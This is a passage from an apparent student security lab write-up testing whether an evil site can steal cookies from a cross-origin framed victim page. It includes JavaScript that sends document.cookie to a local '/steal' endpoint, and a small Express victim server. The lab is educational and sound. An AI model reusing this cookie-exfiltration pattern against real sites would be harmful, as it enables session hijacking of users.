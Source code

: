 ```diff
    document.cookie = 'main=cookie'
    const iframe = document.createElement('iframe')
-   iframe.src = 'http://localhost:5003/'
    document.body.appendChild(iframe)
    document.write(iframe.contentDocument.cookie)
    console.log(iframe.contentDocument.cookie)

    // wait 5 seconds
    setTimeout(function() {
    const p = document.createElement('p')
-   p.innerHTML = document.cookie   /*iframe.contentDocument.cookie */
    document.body.appendChild(p)

    new Image().src = 'http://localhost:5002/steal?cookie=' + document.cookie  /*iframe.contentDocument.cookie*/
}, 5000);
</script>
```

* Server which hosts the evil site.

Same server as used in succesfull attack.

* Server which hosts the secure victim site.

This time, we also set "Secure" in the Set-Cookie header.


```diff
$ cat secure.js 
const express = require('express')
const { createReadStream } = require('fs')
const app = express()
const port = 5003

app.get('/', (req, res) => {
-  res.append('Set-Cookie', 'login=secretcookie; Path=/, Secure')
  /*  res.append('X-Frame-Options', 'SAMEORIGIN')*/
-  res.send("<html><title>Himarsha's Victim Page</title><h1>Welcome to my secure victim page!<br></h1>Himarsha Jayanetti, CS595 - Spring 2021, ODU<br><br>This page will be framed at a cross origin domain.<script>document.write(document.cookie)</script></html>")
})

app.listen(port, () => {
  console.log(`Server 3: Secure victim is listening at http://localhost:${port}`)
})
```

* In both the cases, document.cookie is used instead of iframe.contentDocument.cookie because iframe.contenDocument gives a null value. If we try to access iframe.contentDocument.cookie it will prompt an error in the console saying "Uncaught TypeError: Cannot read property 'cookie' of null" (refer to the screenshots).

### Screenshots
